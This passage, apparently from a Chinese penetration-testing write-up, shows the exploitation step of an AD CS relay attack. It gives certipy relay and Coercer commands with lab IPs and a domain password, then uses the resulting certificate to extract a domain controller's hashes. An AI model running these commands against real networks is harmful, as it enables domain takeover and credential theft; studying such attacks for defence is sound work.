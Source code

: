 ## 漏洞利用

certipy 可以直接进行监听，去申请域管的证书

```plain
certipy relay -target 'http://192.168.142.21' -template DomainController
```

[![](assets/1708508972-45a7a228c5d9526862c1a91526dc7975.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170823-99848ea0-cfcf-1.png)

使用[https://github.com/p0dalirius/Coercer强制身份认证](https://github.com/p0dalirius/Coercer%E5%BC%BA%E5%88%B6%E8%BA%AB%E4%BB%BD%E8%AE%A4%E8%AF%81)

```plain
./Coercer.py coerce -l 192.168.21.101 -t 192.168.142.21 -u 'qxn' -p 'Penson@2016 永遠的神' -d penson.org -v
```

[![](assets/1708508972-1aafc4d0c06fa7c137a46c7c3522c03b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170835-a05367e2-cfcf-1.png)  
拿 ad.pfx 证书去导 hash

[![](assets/1708508972-2e1b783256ddef47c3abf968379f1b82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170850-a94462ca-cfcf-1.png)
